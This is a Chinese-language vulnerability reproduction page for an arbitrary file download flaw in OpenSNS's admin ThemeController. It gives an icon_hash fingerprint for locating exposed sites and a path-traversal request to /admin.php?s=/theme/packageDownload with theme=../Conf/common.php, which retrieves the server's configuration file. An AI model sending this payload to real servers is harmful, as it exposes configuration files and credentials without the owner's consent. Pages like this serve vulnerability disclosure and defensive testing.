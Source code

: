 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235703575.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![img](../../../.vuepress/public/img/1634373152099-96ada529-b284-4aae-9a04-877693d8cfbf.png)	

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![img](../../../.vuepress/public/img/1634373562017-e7805233-165a-4e99-b12b-9ef7d0be3508.png)

构造请求

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![img](../../../.vuepress/public/img/1634374149802-424a321a-71f3-404a-9397-9a1f3085b9f3.png)